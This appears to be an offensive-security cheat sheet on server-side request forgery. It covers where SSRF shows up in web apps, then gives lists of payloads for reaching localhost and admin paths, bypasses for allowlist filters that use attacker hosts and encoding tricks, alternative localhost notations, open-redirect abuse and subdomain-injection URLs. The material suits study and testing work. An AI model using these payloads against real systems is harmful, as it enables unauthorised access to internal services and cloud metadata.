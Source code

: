 # SSRF

## Server Side Request Forgery (SSRF)

In a server-side request forgery (SSRF) attack, the attacker can abuse server functionality to read or update internal resources. The attacker can provide or modify a URL to which code running on the server will read or send data, and by carefully selecting URLs, the attacker can read server configuration such as AWS metadata, connect to internal services such as http enabled, databases, or make publish requests towards internal services that are not intended to be exposed.

### Types of SSRF (detection)

Potential SSRF vulnerabilities can be detected in web applications in many different ways. Here is an example of common places to look:

![When a full URL is used in an address bar parameter.](../../.gitbook/assets/ssrf\_1.png)

![A hidden field in a form.](../../.gitbook/assets/ssrf\_2.png)

![A partial URL such as, for example, just the host name.](../../.gitbook/assets/ssrf\_3.png)

![Only the path of the URL.](../../.gitbook/assets/ssrf\_4.png)

![Only the URL path in the source code.](../../.gitbook/assets/ssrf\_5.png)

### Payloads (with bypass defenses)

```bash
# Payloads:
http://localhost/admin
http://127.0.0.1:80
http://localhost:22
# Bypass:
http://127.1/%2561dmin # Hide "admin" with URL encode.
%2561 = %61 = a # Double URL encode to the letter "a" of admin.
# SSRF with whitelist-based input filters:
https://expected-host@evil-host/ # Number 1
https://evil-host#expected-host # Number 2
https://evil-host%25%32%33@expected-host/admin # Number 3
# Number 4. You can take advantage of the DNS name hierarchy to
# place the required entry in a fully qualified DNS name that you control:
https://expected-host -> https://expected-host.evil-host
http://holo.live -> http://holo.live.localtest.me/
```

### Alternative localhost

```bash
127.0.0.1
127.1
0.0.0.0
0
0000
127.*.*.*
2130706433
0177.1
017700000001
0x7f.1
127.0.0.1.nip.io # DNS record resolving to 127.0.0.1
localtest.me # DNS record resolving to 127.0.0.1
```

### Open redirection

If the above evasions do not work, there is one more trick up the attacker's sleeve, the open redirect. An open redirect is an endpoint on the server where the website visitor is automatically redirected to another website address. Take, for example, the link `https://website.thm/link?url=https://tryhackme.com`. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. But imagine if there was a potential SSRF vulnerability with strict rules that only allowed URLs starting with https://website.thm/. An attacker could use the above function to redirect the internal HTTP request to a domain of their choice.

### SSRF via injection

We have the ability through the server parameter, to choose the subdomain to use:

```bash
https://website.com/item/3?server=api -> https://api.website.com/api/item?id=3
```

That is, we can overwrite the following part of the URL:

```bash
https://<INJECT>.website.com/...
```

In this case, we can abuse this to search for something else of value:

```bash
https://website.com/item/3?server=dev.website.com/user?id=9&x=
```

The **x=** is used to comment/ignore the remaining domain (**.website.com**). So the URL would look like this:

```bash
https://dev.website.com/user?id=9&x=.website.com/api/item?id=2
```

### More payloads

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery" %}

{% embed url="https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/ssrf#attacking-aws-with-ssrf" %}
